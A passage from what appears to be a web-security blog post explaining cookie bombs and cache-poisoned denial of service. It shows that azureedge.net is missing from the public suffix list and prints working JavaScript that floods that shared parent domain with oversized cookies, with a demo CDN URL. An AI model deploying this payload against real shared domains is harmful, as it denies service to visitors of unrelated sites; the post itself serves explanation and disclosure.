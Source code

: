 ```
This has a specific term called [CPDoS (Cache Poisoned Denial of Service)](https://cpdos.org/). Since it exploits the cache, it is not related to the cookie bomb anymore. You can even launch the attack directly from your own computer without using cookies.

Now let's look at the first point: "Is it possible to easily find this place?".

## Finding a Place to Easily Set Cookies

Is there a place where we can easily set cookies to execute a cookie bomb? Yes, it is the shared subdomain mentioned earlier, such as `*.github.io`.

But aren't these domains already in the public suffix list? They cannot set cookies.

Just find one that is not on the list!

However, this is not an easy task because you will find that most of the services you know are already registered. For example, GitHub, AmazonS3, Heroku, and Netlify, among others, are already on the list.

But I found one that is not on the list, and that is Azure CDN provided by Microsoft: azureedge.net

I don't know why, but this domain does not belong to the public suffix, so if I create my own CDN, I can execute a cookie bomb.

## Practical Testing

The code I used for the demo is as follows, referenced and modified from [here](https://github.com/wrr/cookie-bomb/blob/master/bomb.html):

``` js
const domain = 'azureedge.net'
const cookieCount = 40
const cookieLength = 3000
const expireAfterMinute = 5
setCookieBomb()

function setCookie(key, value) {
  const expires = new Date(+new Date() + expireAfterMinute * 60 * 1000);
  document.cookie = key + '=' + value + '; path=/; domain=' + domain + '; Secure; SameSite=None; expires=' + expires.toUTCString()
}

function setCookieBomb() {
  const value = 'Boring' + '_'.repeat(cookieLength)
  for (let i=0; i<cookieCount; i++) {
    setCookie('key' + i, value);
  }
}
```

Next, upload the file to Azure and set up the CDN. You will get a custom URL: https://hulitest2.azureedge.net/cookie.html
